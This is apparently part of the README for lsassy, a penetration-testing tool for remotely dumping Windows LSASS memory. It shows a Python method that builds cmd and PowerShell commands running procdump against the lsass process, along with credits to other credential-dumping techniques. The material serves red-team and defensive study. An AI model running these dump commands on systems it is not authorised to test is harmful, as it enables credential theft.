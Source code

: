 ```python

    def get_commands(self, dump_path=None, dump_name=None, no_powershell=False):
        """
        get_commands method is overloaded as it is mandatory.
        Two different ways of dumping lsass with cmd.exe and powershell are provided and returned.
        """
        cmd_command = """for /f "tokens=2 delims= " %J in ('"tasklist /fi "Imagename eq lsass.exe" | find "lsass""') do {}{} -accepteula -o -ma %J {}{}""".format(
            self.procdump_remote_path, self.procdump,
            self.dump_path, self.dump_name
        )
        pwsh_command = """{}{} -accepteula -o -ma (Get-Process lsass).Id {}{}""".format(
            self.procdump_remote_path, self.procdump,
            self.dump_path, self.dump_name
        )
        return {
            "cmd": cmd_command,
            "pwsh": pwsh_command
        }

```

You can check dummy class for more comments and/or informations.

## Acknowledgments

![image](https://user-images.githubusercontent.com/11051803/127148091-6b52f38a-de64-4114-b1ef-465e65deacfb.png)

* [Kodoque](https://github.com/Kodoque1) for lsassy name
* [Impacket](https://github.com/SecureAuthCorp/impacket)
* [SkelSec](http://twitter.com/skelsec) for Pypykatz, but also for his patience and help
* [mpgn](https://twitter.com/mpgn_x64) for his help and ideas
* [Cn33liz](https://twitter.com/Cneelis) for [Dumpert](https://github.com/outflanknl/Dumpert)
* [itm4n](https://twitter.com/itm4n) for [PPLDump](https://github.com/itm4n/PPLdump)
* [Matt Graeber](https://twitter.com/mattifestation) for [WER Technique](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1)
* [MrUn1k0d3r](https://twitter.com/MrUn1k0d3r) for [SMB Service Modification technique](https://raw.githubusercontent.com/Mr-Un1k0d3r/SCShell/master/scshell.py)

## Official Discord Channel

[![Porchetta Industries](https://discordapp.com/api/guilds/736724457258745996/widget.png?style=banner3)](https://discord.gg/sEkn3aa)

## Known bugs

* Compiled versions don't include table_output because of some weird error with rich library
